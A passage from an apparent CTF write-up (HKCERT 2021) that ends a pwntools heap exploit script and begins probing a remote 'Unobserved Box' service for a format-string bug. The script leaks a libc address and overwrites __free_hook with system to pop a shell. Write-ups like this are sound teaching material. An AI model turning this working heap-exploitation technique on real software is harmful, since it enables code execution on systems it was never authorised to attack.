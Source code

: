 ```python
    p.sendafter("Input message content >>", data)
def remove(idx):
    p.sendlineafter("$", "4")
    p.sendlineafter("Delete which user?", str(idx))

add(1, "A")
# chunks for padding
for i in range(9):
    add(0x40, b"/bin/sh\x00")
edit(0, "\n")

# change the size of neighbour
payload = p64(0)*3 + p64(0x431)
edit(0, payload)

# free it to get a unsorted bin
remove(1)

payload = 'A'*0x20
edit(0, payload)

view(0)
p.recvuntil("A"*0x20)
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x1ebbe0

info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
info(f"free_hook: {hex(free_hook)}")

payload = p64(free_hook) * 24
edit(0, payload)

edit(2, p64(system))
remove(5)


p.interactive()
```


## Unobserved Box
### Step 1: Dump the source code throught format string
This challenge only give us the server to connect.
My teammate tell me this challenge may have format string vulnerability when I was sleeping.
```bash
┌──(bot3310㉿kali)-[~/ctf/hkcert2021/box]
└─$ nc chalp.hkcert21.pwnable.hk 28132                                                                                                                                                                                              130 ⨯ 1 ⚙
%p %x %c %d
0x7ffee2d4b670 e2d4b670  1179970944 is not the correct answer.


```
After I few tries, we can't get any useful information from the server.
However, I remember Liveoverflow has a video talk about a challenge like this.
https://www.youtube.com/watch?v=XuzuFUGuQv0&t=450s
